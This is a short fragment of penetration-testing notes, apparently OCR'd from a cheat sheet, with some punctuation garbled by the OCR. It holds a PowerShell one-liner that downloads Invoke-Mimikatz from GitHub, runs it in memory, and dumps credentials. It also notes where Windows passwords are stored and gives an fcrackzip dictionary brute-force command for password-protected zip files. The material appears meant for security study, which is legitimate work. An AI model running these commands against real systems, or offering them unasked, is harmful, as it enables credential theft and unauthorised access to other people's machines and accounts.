        -   IEX (New-Object
            System.Net.Webclient).DownloadString(\`https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1\')
            ; Invoke-Mimikatz --DumpCreds

-   **General Notes**

    -   if  pc is a workgroup  passwords are saved locally on the
        machine in sam file

    -   if pc is in a domain password are stored locally and in domain
        controller

    -   Brute force zip files

        -   fcrackzip --u --D --p dictionary.txt zip\_file
